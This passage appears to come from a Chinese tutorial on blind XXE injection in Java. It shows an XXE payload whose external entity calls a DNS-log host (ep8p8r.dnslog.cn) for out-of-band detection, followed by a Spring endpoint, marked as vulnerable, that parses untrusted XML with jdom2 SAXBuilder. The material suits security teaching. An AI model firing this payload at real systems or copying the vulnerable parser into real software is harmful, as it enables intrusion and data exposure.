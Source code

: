 可以借助dns平台

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE aaa [
<!ENTITY name SYSTEM "http://ep8p8r.dnslog.cn" > 
]>
<name>&name;</name>
```

![image-20231003164342029](images/4.png)

## SAXBuilder

这也是一个第三方库

```xml
<dependency>
    <groupId>org.jdom</groupId>
    <artifactId>jdom2</artifactId>
    <version>2.0.6</version>
</dependency>
```

仍然是没有回显的，漏洞代码如下

```java
@RequestMapping(value = "/SAXBuilder/vuln", method = RequestMethod.POST)
@ResponseBody
public String SAXBuilderVuln(HttpServletRequest request) {
    try {
        String body = WebUtils.getRequestBody(request);
        logger.info(body);

        SAXBuilder builder = new SAXBuilder();
        // org.jdom2.Document document
        builder.build(new InputSource(new StringReader(body)));  // cause xxe
        return "SAXBuilder xxe vuln code";
    } catch (Exception e) {
        logger.error(e.toString());
        return "xxe except";
    }
}
```
